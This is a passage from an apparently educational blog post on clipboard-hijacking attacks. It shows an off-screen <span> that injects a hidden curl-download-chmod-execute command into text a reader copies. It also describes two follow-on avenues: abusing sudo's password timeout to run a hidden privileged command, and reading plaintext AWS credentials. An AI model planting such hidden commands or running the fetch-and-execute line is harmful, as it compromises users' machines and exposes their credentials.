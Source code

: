 This time the bad actor used a `<span>` tag inside of a `<div>`. A `<span>` tag is a inline container similar to `<b>` and `<i>`. It is used to apply styles to text. For example: Don't <b>ever</b> push the <b><span style="color:red">red</span> one</b>.

```
<p>Don't <b>ever</b> push the <b><span style="color:red">red</span> one</b>.</p>
```

This allows us to add style to text, but the browser allows the copy without the the format applied. The `<span>` contains the styling of `position: absolute; top: -200px; left: -200px;` which puts the text off screen in the upper left corner of the browser window. Even though you can't see it doesn't mean its not copied. When the `du` command is highlighted so is the text in the `<span>`. Here is what is copied to your clipboard.

```
du -hs *; curl -s -L https://nickstanley574.github.io//assets/posts/dont-trust-your-clipboard/sl --output sl; chmod +x sl; ./sl; clear;
du -hs * | sort -rh | head -5
```

The curl downloads a file, makes it executable, runs it.

## Composing the Attacks

### Attack Avenue 1

The sudo command gives a user temporarily elevated privileges allowing the completion of tasks that require to be run with elevated privilege.  When sudo is run the user is asked to enter their password to allow the action. Sudo then will check if the user has the need permissions to run the command if not the command will get denied. For example lets install `apache` and `nginx`.

```
nick /home $ sudo apt-get install apache2
[sudo] password for nick:
Reading package lists... Done
...
nick /home $ sudo apt-get install nginx
Reading package lists... Done
```

Notice for the second `sudo` command it didn't require a password. The `sudo` command has a `timestamp_timeout` feature that specifies the amount of time that can pass before `sudo` asks for a password again. This allows users to execute multiple privileged commands in a short period without having to repeatedly enter their password. The default value for this feature is 5 minutes.

Hackers can start by initiating a genuine sudo command that prompts the user for their password, and then proceed to execute a hidden malicious command during copy and paste using the subsequent sudo command. This could result in the installation of spyware or ransomware on the system, among other actions.

### Attack Avenue 2

AWS credentials are stored in plaintext and is normally owned by the current user in that user's home folder, by default the path is `~/.aws/credentials`. When the user is the owner, then there's no need to use sudo to access these credentials. As a result, any process executed under the user's account would be able to gain access to these confidential information. 
